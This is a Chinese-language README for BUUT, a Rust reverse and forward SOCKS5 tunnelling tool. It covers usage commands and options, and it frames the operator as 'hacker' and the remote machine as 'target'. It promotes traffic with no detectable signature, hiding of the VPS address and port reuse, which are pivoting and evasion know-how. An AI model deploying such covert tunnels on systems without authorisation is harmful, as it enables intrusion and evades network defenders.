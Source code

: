 # BUUT 

https://github.com/YDHCUI/buut

## 介绍 
一款使用rust开发的高性能正反向隧道代理工具，基于yamux多路复用技术。


## 工作原理
```rust
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
|hacker| <--> | Socks5 VPS  | <--> |Yamux frame| <--> |Noise stream | <--> |TCP stream| <--> |TARGET|
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("l", "server_listen",   "", "监听地址");
    opts.optopt("s", "remote_addr",     "", "远程地址");
    opts.optopt("f", "forward_addr",    "", "转发地址,暂未实现");
    opts.optopt("p", "proxy_port",      "", "代理端口,默认10086");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP,支持<TCP|KCP|WS>");
    opts.optopt("n", "channel",         "", "通道数量,默认1");
    opts.optopt("c", "config",          "", "配置文件,默认路径./conf.toml");
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "server",      "", "是否服务模式,同时监听tcp和kcp");
    opts.optflagopt("X", "reuse",       "", "是否端口复用");
    opts.optopt("",  "sockspass",       "", "代理密码,默认不验证,用户名buut"); 
    opts.optopt("",  "headers",         "", "连接所需的一些参数");
    //opts.optopt("",  "log",             "", "日志等级,默认不开"); 
```

## 特点：

速度快，使用多路复用技术 将带宽利用到极致。rust开发，速度、稳定性和安全性都有保证。

体积小，编译打包后只有不到几百k, 相比golang写的程序动辄10多M还是很有优势的。

无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。

单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。

多协议，目前release 0.4已支持tcp、kcp、websocket，后续把icmp、dns协议支持加进去。



## 使用方法 

### 反向隧道

默认使用tcp连接反向隧道
```bash
    vps执行：          ./buut -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 


    vps:
    [root@localhost]# ./buut -l 443
    Reverse Server Listen [tcp://0.0.0.0:443]
    Client Handshake From 127.0.0.1:29505
    Agent ID [rmSyYaLX] Proxy Listen [0.0.0.0:10086]

    target:
    [root@localhost]# ./buut -s 127.0.0.1:443
    Reverse Agent ID [rmSyYaLX] Channel [1] Connect Suss

```

使用-S 参数启用服务模式，会同时监听tcp和kcp端口
```bash
    vps执行：          ./buut -S -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 
```


### 正向隧道

使用-F 参数连接tcp正向隧道
```bash
    target执行：       ./buut -F -l 443 
    vps执行：          ./buut -F -s target:443 
    hacker连接socks5   vps:10086 

    target:
    [root@localhost]# ./buut -F -l 443
    Forward Agent ID [3Yj2LLAg] Listen On [tcp://0.0.0.0:443]

    vps:
    [root@localhost]# ./buut -F -s 127.0.0.1:443
    Forward Server [tcp://127.0.0.1:443] Connect Suss
    Agent ID [3Yj2LLAg] Proxy Listen [0.0.0.0:10086]
```

使用websocket连接
```bash
    target执行：       ./buut -F -l 443 
    vps执行：          ./buut -F -s https://target:443 --headers Cookie:Session=xxxxxx;
    hacker连接socks5   vps:10086 
```

### 自建代理

```bash
    vps执行：          ./buut -F -S -l 10086
    user连接socks5     vps:10086 

    vps:
    [root@localhost]# ./buut -S -F -l 10086
    Socks5 Server ID [FPamyVyY] Listen On [tcp://0.0.0.0:10086]

```


### Tips

1、设置BUUT变量隐藏vps。 如： 原本的 ./buut -s vps:1234 可改成 export BUUT=vps:1234 && ./buut 

2、使用websocket协议时,连接地址应设为http://xxx格式 如: ./buut -m ws -s http://target:8081/xx

3、sockspass是对client端生效，所以设置时应该在client设置，如 ./buut -s 127.0.0.1:443 --sockspass 123456


## 更新 

### 0.5.0

1、之前NN模式有安全问题，现在更改noiseparams 为 Noise_KK_25519_ChaChaPoly_BLAKE2s 所以可能和以前版本会有不兼容


### 0.4.4

1、加入自建sock5代理功能

使用如: ./buut -F -S -l 1234 会在本地启一个socks5 端口为 1234 


### 0.4.3

1、websocket支持tls。

2、正向websocket连接加入自定义header选项参数 

使用如: ./buut -F -m ws -s https://192.168.1.110/svr/wschat --headers Cookie:SessionId=xxxxxxxxxxxxx;


### 0.4.2

1、简单实现端口复用

2、去除默认参数，优化使用

3、修复握手包超时的的bug。

通过调用 SO_REUSEADDR 实现端口复用 使用如: ./buut -F -X -l 192.168.1.110:443  


### 0.4.1

1、修改使KCP协议也使用noise加密。

2、修复正向代理不能使用kcp协议的问题。


### 0.4

1、加入websocket, kcp 协议支持。

2、修复client端不会自动重连的bug。

3、优化参数配置。


### 0.3.1 

1、加入windows支持。

2、修改默认参数。

3、优化体积。


## todo

1、实现icmp、dns协议支持  

2、链式代理支持

3、端口映射模式

4、加入tun模式 

5、将非buut流量转发到外部端口（急）


